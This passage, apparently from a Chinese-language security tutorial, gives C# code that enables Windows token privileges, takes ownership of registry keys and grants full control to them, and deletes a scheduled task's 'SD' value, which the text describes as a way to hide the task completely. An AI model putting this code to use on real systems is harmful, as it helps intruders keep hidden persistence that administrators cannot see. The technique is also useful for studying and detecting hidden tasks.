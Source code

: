     
    
    try  
    {  
        TokenManipulator.AddPrivilege("SeRestorePrivilege");  
        TokenManipulator.AddPrivilege("SeBackupPrivilege");  
        TokenManipulator.AddPrivilege("SeTakeOwnershipPrivilege");  
      
        var subKey = Registry.ClassesRoot.OpenSubKey(@"AppID\{9CA88EE3-ACB7-47c8-AFC4-AB702511C276}", RegistryKeyPermissionCheck.ReadWriteSubTree, RegistryRights.TakeOwnership);  
        // code to change owner...  
    }  
    finally  
    {  
        TokenManipulator.RemovePrivilege("SeRestorePrivilege");  
        TokenManipulator.RemovePrivilege("SeBackupPrivilege");  
        TokenManipulator.RemovePrivilege("SeTakeOwnershipPrivilege");  
    }

获取特权模式后，更改注册表项值的所有者为 Administrators，同时要更改注册表项值的权限，这才能对 Index 进行修改操作。

    
    
    //更改注册表项值的所有者  
    RegistryKey subKey = Registry.LocalMachine.OpenSubKey(regpath,RegistryKeyPermissionCheck.ReadWriteSubTree, RegistryRightsTakeOwnership);  
    RegistrySecurity rs = new RegistrySecurity();  
    //设置安全性的所有者为Administrators  
    rs.SetOwner(new NTAccount("Administrators"));  
    //为注册表项设置权限  
    subKey.SetAccessControl(rs);  
      
    //更改注册表项值的权限  
    RegistryAccessRule rar = new RegistryAccessRule("Administrators",RegistryRights.FullControl, AccessControlType.Allow);  
    rs.AddAccessRule(rar);  
    subKey.SetAccessControl(rs);  
    subKey.Close();

#### SD 删除

SD 键值的删除，是计划任务完全隐藏项之一，当然要排除在注册表中查看。但经过测试，Windows 7 、Windows Server 2008 无 SD
值、Windows 10 有 SD 值。所以就要做 if 的判断，以免程序报错。

    
    
    //判断SD键值是否存在（Win7 与 win2008 无SD）  
    public static void RegeditKeyExist(string regpath)  
    {  
        string[] subkeyNames;  
        RegistryKey sd = Registry.LocalMachine.OpenSubKey(regpath, true);  
        subkeyNames = sd.GetValueNames();  
        foreach (string keyName in subkeyNames)  
        {  
            if (keyName == "SD")  
            {  
                sd.DeleteValue("SD");  
                sd.Close();  
                return;  
            }  
        }  
        sd.Close();  
        return;  
    }
